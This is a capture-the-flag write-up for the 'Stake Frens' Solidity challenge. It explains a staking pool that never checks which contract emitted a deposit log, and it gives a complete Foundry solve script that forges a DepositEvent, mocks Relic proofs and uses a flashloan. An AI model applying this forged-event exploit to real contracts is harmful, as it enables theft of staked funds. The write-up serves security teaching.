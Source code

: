```yaml
---
author: '0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149'
contributors: ['0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149']
adapted_from: 'https://github.com/chainlight-io/publications/tree/417d1475d3b7057db6e0da2cbaba6104576f3d20/ctf-writeups/curta-cup/Stake%20Frens'
---
```


## Overview

This challenge is roughly based on an idea to use proofs of log emissions (using e.g. [Relic Protocol](https://docs.relicprotocol.com/)) from the [ETH2 deposit contract](https://etherscan.io/address/0x00000000219ab540356cbb839cbe05303d7705fa) to build a simple staking pool contract. The idea has a few flaws, but the implementation used in this challenge has a major flaw: the address which emitted the log is not validated to equal the deposit contract. As a result, an attacker can create a contract which emits a `DepositEvent` without actually requiring an ETH2 deposit.

To simplify the challenge and enable an atomic solution, the goal of the challenge is simply to convince a wrapper contract that the "deposit contract" reverted due to an impossible failure (ETH deposited is greater than $2^{64}$ gwei). Instead, the attacker's fake deposit contract can be writted to revert with this same message. This highlights that revert messages should almost never be used to infer an actual failure reason.

## Solving the puzzle

The attacker creates a contract which emits a fake `DepositEvent` matching the validation logic for some `FrenPool`. The `get_deposit_root()` method of this contract should be written to revert with the required message.

Once the crafted event is included on chain, the [Relic SDK](https://docs.relicprotocol.com/sdk/client-sdk/#proving-log-emissions) can be used to fetch a proof of this log emission, which can be passed to the `FrenPool` to perform the attack.

If the attack is performed correctly, 16 ETH is required to be passed to the contract, but it will all be returned to the attacker. As a result, a zero-fee flashloan can be used to perform this attack with minimal ETH requirements.

Check out our solve script below or [on GitHub](https://github.com/chainlight-io/publications/blob/417d1475d3b7057db6e0da2cbaba6104576f3d20/ctf-writeups/curta-cup/Stake%20Frens/Solve.s.sol) for more details.

<Callout>
  **Note**: To simplify testing, our solve script includes some Foundry hacks for mocking out the
  Relic proofs. When performing the attack on-chain, these portions must be done in separate
  transactions using an actual proof constructed for Relic Protocol.
</Callout>

```sol fileName="Solve.s.sol"
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console2} from "forge-std/Test.sol";
import {IReliquary} from "relic-sdk/packages/contracts/interfaces/IReliquary.sol";
import {IProver} from "relic-sdk/packages/contracts/interfaces/IProver.sol";
import {Fact, FactSignature} from "relic-sdk/packages/contracts/lib/Facts.sol";
import {FactSigs} from "relic-sdk/packages/contracts/lib/FactSigs.sol";
import {CoreTypes} from "relic-sdk/packages/contracts/lib/CoreTypes.sol";
import {IDepositEvents, IDepositContract} from "../src/interfaces/IDepositContract.sol";
import {FrenPool} from "../src/FrenPool.sol";
import {StakeFrens} from "../src/StakeFrens.sol";
import {FrenCoin} from "../src/FrenCoin.sol";
import {RelicMock} from "./RelicMock.sol";
import {ETHFlashloan} from "./ETHFlashloan.sol";

contract FakeDepositContract is IDepositContract {
    function makeFakeDeposit(
        bytes calldata pubkey,
        bytes calldata withdrawal_credentials,
        bytes calldata amount,
        bytes calldata signature,
        bytes calldata index
    ) external {
        emit DepositEvent(
            pubkey,
            withdrawal_credentials,
            amount,
            signature,
            index
        );
    }

    function deposit(
        bytes calldata ,
        bytes calldata ,
        bytes calldata ,
        bytes32
    ) external payable {
        revert();
    }

    function get_deposit_count() external pure returns (bytes memory) {
        revert();
    }

    function get_deposit_root() external pure returns (bytes32) {
        revert("DepositContract: deposit value too high");
    }
}

contract Solver is ETHFlashloan {
    function callback(bytes calldata data) internal override {
        (
            FrenCoin coin,
            address creator,
            address prover,
            FrenPool.DepositProof memory proof
        ) = abi.decode(
                data,
                (FrenCoin, address, address, FrenPool.DepositProof)
            );
        coin.showFrenship{value: 16 ether}(creator, prover, proof);
    }

    function solve(
        FrenCoin coin,
        address creator,
        address prover,
        FrenPool.DepositProof calldata proof
    ) external payable {
        assert(msg.value == FLASHLOAN_FEE);
        flashLoan(16 ether, abi.encode(coin, creator, prover, proof));
        coin.transfer(msg.sender, coin.balanceOf(address(this)));
    }
}

contract Solve is RelicMock, Test, IDepositEvents {
    IReliquary constant RELIQUARY =
        IReliquary(0x5E4DE6Bb8c6824f29c44Bd3473d44da120387d08);
    address constant RELIC_MULTISIG =
        0xCCEf16C5ac53714512A5Acce5Fa1984A977351bE;
    address constant RELIC_LOG_PROVER =
        0xED12949e9a2cF4D86a2d0cF930247214Ea84aA4e;

    StakeFrens stakeFrens;
    FrenCoin frenCoin;

    constructor() RelicMock(RELIQUARY, RELIC_MULTISIG) {}

    function setup() public {
        stakeFrens = new StakeFrens();
        frenCoin = stakeFrens.frenCoin();
    }

    function to_little_endian_64(
        uint64 value
    ) internal pure returns (bytes memory ret) {
        ret = new bytes(8);
        bytes8 bytesValue = bytes8(value);
        // Byteswapping during copying to bytes.
        ret[0] = bytesValue[7];
        ret[1] = bytesValue[6];
        ret[2] = bytesValue[5];
        ret[3] = bytesValue[4];
        ret[4] = bytesValue[3];
        ret[5] = bytesValue[2];
        ret[6] = bytesValue[1];
        ret[7] = bytesValue[0];
    }

    function setupMockProof(
        FakeDepositContract fake
    ) internal returns (FrenPool.DepositProof memory proof) {
        bytes32[] memory topics = new bytes32[](1);
        topics[0] = DepositEvent.selector;
        bytes memory pubkey = new bytes(48);
        bytes memory withdrawal_credentials = stakeFrens.pools(address(this)).eth1WithdrawalCredentials();
        uint256 deposit_amount = 16 ether;
        DepositEventData memory deposit = DepositEventData(
            pubkey,
            withdrawal_credentials,
            to_little_endian_64(uint64(deposit_amount / 1 gwei)),
            new bytes(96),
            ""
        );
        CoreTypes.LogData memory log = CoreTypes.LogData(
            address(fake),
            topics,
            abi.encode(deposit)
        );
        bytes memory data = abi.encode(log);
        FactSignature sig = FactSigs.logFactSig(0, 0, 0);
        Fact memory fact = Fact(address(fake), sig, data);
        proof = FrenPool.DepositProof(0, 0, 0, bytes32(0), mockProof(fact));
    }

    function getMockProverAndProof(
        FakeDepositContract fake
    ) internal returns (address prover, FrenPool.DepositProof memory proof) {
        prover = setupMockProver();
        proof = setupMockProof(fake);
    }

    function getRealProverAndProof(
        FakeDepositContract fake
    ) internal returns (address prover, FrenPool.DepositProof memory proof) {
        prover = RELIC_LOG_PROVER;

        bytes memory pubkey = new bytes(48);
        bytes memory withdrawal_credentials = stakeFrens.pools(address(this)).eth1WithdrawalCredentials();
        uint256 deposit_amount = 16 ether;

        // we should broadcast this
        fake.makeFakeDeposit(
            pubkey,
            withdrawal_credentials,
            to_little_endian_64(uint64(deposit_amount / 1 gwei)),
            new bytes(96),
            ""
        );
        // TODO: fetch relic proof and finish attack
    }

    function solve() internal {
        stakeFrens.createPool();
        FakeDepositContract fake = new FakeDepositContract();
        (
            address prover,
            FrenPool.DepositProof memory proof
        ) = getMockProverAndProof(fake);
        Solver solver = new Solver();
        solver.solve{value: solver.FLASHLOAN_FEE()}(frenCoin, address(this), prover, proof);
        uint256 seed = stakeFrens.generate(address(this));
        uint256 amount = uint256(uint128(uint256(keccak256(abi.encode(seed)))));
        uint256 balance = frenCoin.balanceOf(address(this));
        require(balance > amount, "amount too small");
        frenCoin.transfer(address(1), balance - amount);
        require(stakeFrens.verify(seed, amount), "challenge not solved");
    }

    function test() public {
        vm.createSelectFork("mainnet");
        setup();
        solve();
    }
}
```
